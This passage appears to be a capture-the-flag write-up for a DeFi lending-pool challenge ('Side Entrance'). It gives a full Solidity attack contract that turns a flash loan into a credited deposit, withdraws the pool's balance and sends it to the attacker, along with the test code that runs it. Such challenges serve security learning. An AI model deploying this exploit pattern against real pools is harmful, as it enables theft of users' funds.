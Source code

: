 This is how the `attack()` should look like -

```solidity
function attack() external {
    victim.flashLoan(address(victim).balance);
    victim.withdraw();
    (bool success,) = attacker.call{value: address(this).balance}("");
}
```

The overall contract looks like this -

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPool {
    function deposit() external payable;
    function withdraw() external;
    function flashLoan(uint256 amount) external;
}

contract AttackPool {
    IPool immutable victim;
    address immutable attacker;

    constructor(address _victim, address _attacker) {
        victim = IPool(_victim);
        attacker = _attacker;
    }

    function attack() external {
        victim.flashLoan(address(victim).balance);
        victim.withdraw();
        (bool success,) = attacker.call{value: address(this).balance}("");
    }

    function execute() external payable {
        require(tx.origin == attacker);
        require(msg.sender == address(victim));

        victim.deposit{value: msg.value}();
    }

    receive() external payable {}
}
```

To pass this challenge, we have to pass the `side-entrance.challenge.js` test. The JS could is as simple as this -

```jsx
it('Execution', async function () {
	/** CODE YOUR SOLUTION HERE */
	this.hack = await (
		await ethers.getContractFactory('AttackPool', player)
	).deploy(pool.address, player.address);

	await this.hack.attack();
});
```
